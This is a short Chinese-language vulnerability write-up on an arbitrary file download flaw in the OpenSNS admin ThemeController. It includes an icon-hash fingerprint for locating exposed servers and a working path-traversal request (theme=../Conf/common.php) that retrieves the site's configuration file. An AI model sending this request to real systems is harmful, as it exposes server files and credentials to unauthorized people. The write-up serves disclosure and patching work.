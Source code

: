 # OpenSNS ThemeController.class.php 后台任意文件下载漏洞

## 漏洞描述

OpenSNS ThemeController.class.php文件中存在文件下载，其中过滤不足导致可以下载服务器任意文件

## 漏洞影响

<a-checkbox checked>OpenSNS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1167011145"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/1634371874190-3653480e-380a-4cdc-81fc-7d560bc7d0dc-20220313235703575.png)

存在漏洞的文件为 **Application/Admin/Model/ThemeController.class.php**

![img](../../../.vuepress/public/img/1634373152099-96ada529-b284-4aae-9a04-877693d8cfbf.png)	

其中 theme参数为用户可控参数，根据函数流程可以发现存在的文件将会打包为 zip文件提供下载

![img](../../../.vuepress/public/img/1634373562017-e7805233-165a-4e99-b12b-9ef7d0be3508.png)

构造请求

```php
POST /admin.php?s=/theme/packageDownload

theme=../Conf/common.php
```

![img](../../../.vuepress/public/img/1634374149802-424a321a-71f3-404a-9397-9a1f3085b9f3.png)